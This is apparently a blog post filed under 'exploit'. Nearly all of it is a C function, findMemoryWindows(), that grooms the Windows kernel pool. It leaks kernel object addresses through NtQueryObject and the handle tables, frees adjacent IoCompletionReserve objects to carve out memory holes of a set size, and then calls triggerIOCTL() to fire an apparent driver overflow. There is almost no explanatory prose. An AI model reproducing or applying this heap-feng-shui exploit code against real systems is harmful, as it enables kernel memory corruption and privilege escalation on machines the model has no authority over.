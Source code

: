 ```yaml
---
layout: post
title: "findMemoryWindows()"
category: exploit
tagline: "Supporting tagline"
tags: [exploit]
---
```

{% include JB/setup %}

## findMemoryWindows()

### struct _PUBLIC_OBJECT_TYPE_INFORMATION
{% highlight C linenos %}
typedef struct _PUBLIC_OBJECT_TYPE_INFORMATION{
	UNICODE_STRING	TypeName;
	ULONG			Reserved[0x2048];
} PUBLIC_OBJECT_TYPE_INFORMATION, *PPUBLIC_OBJECT_TYPE_INFORMATION;
{% endhighlight %}

### findMemoryWindows()
{% highlight C linenos %}
VOID findMemoryWindows(){

	PSYSTEM_HANDLE_INFORMATION_EX handleInfo;
	getHandles(&handleInfo);

	size_t numRetrievedHandles = handleInfo->NumberOfHandles;
	PSYSTEM_HANDLE_TABLE_ENTRY_INFO_EX handleEntry = handleInfo->Handles;

	HMODULE h = LoadLibraryA("ntdll.dll");
	if(!h){
		printf("[-]Failed to load module\n");
		exit(1);
	}
	NtQueryObject pNtQueryObject = (NtQueryObject)GetProcAddress(h, "NtQueryObject");

	DWORD obj_addr[50000][2];
	int j = 0;

	for (size_t i = 0; i < numRetrievedHandles; i++){
		if(handleEntry->UniqueProcessId == (HANDLE) GetCurrentProcessId()){
			PUBLIC_OBJECT_TYPE_INFORMATION public_object_type_information;
			DWORD size = sizeof(public_object_type_information);
			NTSTATUS st = pNtQueryObject(handleEntry->HandleValue, ObjectTypeInformation, &public_object_type_information, size, NULL);
			if(!NT_SUCCESS(st)){
				printf("NtQueryObject() Failed!\n");
				__asm int 3

			}
			wchar_t IoCoObj[20] = L"IoCompletionReserve";
			if(!wcscmp(IoCoObj, public_object_type_information.TypeName.Buffer)){
				// printf("IoCo: %ls\n", public_object_type_information.TypeName.Buffer);
				// printf("handleEntry->Object: 0x%08x\n", (DWORD) handleEntry->Object);

				// printf("handleEntry->HandleValue: %d\n", handleEntry->HandleValue);
				obj_addr[j][0] = (DWORD) handleEntry->Object;
				obj_addr[j][1] = (DWORD) handleEntry->HandleValue;
				j++;
			}
		}
		handleEntry++;
	}
	qsort(obj_addr, 50000, 2*sizeof(DWORD), comp);

	
	DWORD alloc;
	DWORD obj;
	int hole_count = 0;
	for(int i = 0; i < 50000; i++){
		obj = obj_addr[i][0];
		alloc = obj_addr[i][0] - 0x30;
		if((alloc & 0xfffff000) == alloc){
			if(obj_addr[i + 2][0] == obj + 0x100 &&
				obj_addr[i + 3][0] == obj + 0x160 &&
				obj_addr[i + 4][0] == obj + 0x1c0 &&
				obj_addr[i + 5][0] == obj + 0x220 &&
				obj_addr[i + 6][0] == obj + 0x280 &&
				obj_addr[i + 7][0] == obj + 0x2e0 &&
				obj_addr[i + 8][0] == obj + 0x340 &&
				obj_addr[i + 9][0] == obj + 0x3a0 &&
				obj_addr[i + 10][0] == obj + 0x400 &&
				obj_addr[i + 11][0] == obj + 0x460 &&
				obj_addr[i + 12][0] == obj + 0x4c0 &&
				obj_addr[i + 13][0] == obj + 0x520 &&
				obj_addr[i + 14][0] == obj + 0x580){

				/*
				printf("[Adjecient Memory Chunk %d]\n", hole_count);
				printf("obj_addr[i][0] = 0x%08x\n", obj_addr[i][0]);
				printf("obj_addr[i + 2][0] = 0x%08x\n", obj_addr[i + 2][0]);
				printf("obj_addr[i + 3][0] = 0x%08x\n", obj_addr[i + 3][0]);
				printf("obj_addr[i + 4][0] = 0x%08x\n", obj_addr[i + 4][0]);
				printf("obj_addr[i + 5][0] = 0x%08x\n", obj_addr[i + 5][0]);
				printf("obj_addr[i + 6][0] = 0x%08x\n", obj_addr[i + 6][0]);
				printf("obj_addr[i + 7][0] = 0x%08x\n", obj_addr[i + 7][0]);
				printf("obj_addr[i + 8][0] = 0x%08x\n", obj_addr[i + 8][0]);
				printf("obj_addr[i + 9][0] = 0x%08x\n", obj_addr[i + 9][0]);
				printf("obj_addr[i + 10][0] = 0x%08x\n", obj_addr[i + 10][0]);
				printf("obj_addr[i + 11][0] = 0x%08x\n", obj_addr[i + 11][0]);
				printf("obj_addr[i + 12][0] = 0x%08x\n", obj_addr[i + 12][0]);
				printf("obj_addr[i + 13][0] = 0x%08x\n", obj_addr[i + 13][0]);
				printf("obj_addr[i + 14][0] = 0x%08x\n\n\n", obj_addr[i + 14][0]);
				*/

				// Create Memory Windows of 0x480 bytes (0x60*12)
				CloseHandle((HANDLE) obj_addr[i + 2][1]);
				CloseHandle((HANDLE) obj_addr[i + 3][1]);
				CloseHandle((HANDLE) obj_addr[i + 4][1]);
				CloseHandle((HANDLE) obj_addr[i + 5][1]);
				CloseHandle((HANDLE) obj_addr[i + 6][1]);
				CloseHandle((HANDLE) obj_addr[i + 7][1]);
				CloseHandle((HANDLE) obj_addr[i + 8][1]);
				CloseHandle((HANDLE) obj_addr[i + 9][1]);
				CloseHandle((HANDLE) obj_addr[i + 10][1]);
				CloseHandle((HANDLE) obj_addr[i + 11][1]);
				CloseHandle((HANDLE) obj_addr[i + 12][1]);
				CloseHandle((HANDLE) obj_addr[i + 13][1]);

				hole_count++;
			}
		}
	}

	triggerIOCTL();

	for(int i = 0; i < 50000; i++){
		obj = obj_addr[i][0];
		alloc = obj_addr[i][0] - 0x30;
		if((alloc & 0xfffff000) == alloc){
			if(obj_addr[i + 14][0] == obj + 0x580)
				CloseHandle((HANDLE) obj_addr[i + 14][1]);
		}
	}
	printf("Total Windows = %d\n", hole_count);

}
{% endhighlight %}